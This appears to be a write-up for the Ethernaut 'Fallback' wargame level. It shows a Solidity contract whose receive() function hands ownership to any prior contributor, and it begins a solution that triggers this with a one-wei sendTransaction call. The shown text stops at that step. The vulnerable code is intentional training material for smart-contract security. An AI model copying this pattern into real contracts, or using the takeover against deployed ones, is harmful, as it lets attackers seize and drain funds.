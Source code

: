 ## Fallback
#### Challenge 

Difficulty 1/10

Look carefully at the contract's code below.

You will beat this level if

1.  you claim ownership of the contract
2.  you reduce its balance to 0

  Things that might help

-   How to send ether when interacting with an ABI
-   How to send ether outside of the ABI
-   Converting to and from wei/ether units (see `help()` command)
-   Fallback methods
### Sources

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }
  
  // fallback fn. :)
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

##### Level author:

Alejandro Santander

---
#### Solution
---
- player
`0x6DC51f9C50735658Cc6a003e07B0b92dF9c98473`
- contract.address
`0x7aDcd9d1B849F90B96Df0b3cB125FF1438114166`
- await ethernaut.owner()
`0x09902A56d04a9446601a0d451E07459dC5aF0820`
- await contract.owner()
`0x9CB391dbcD447E645D6Cb55dE6ca23164130D008`
##### Attack
- `contract.sendTransaction({value: 1})` 
	- this will triggers the fallback fn.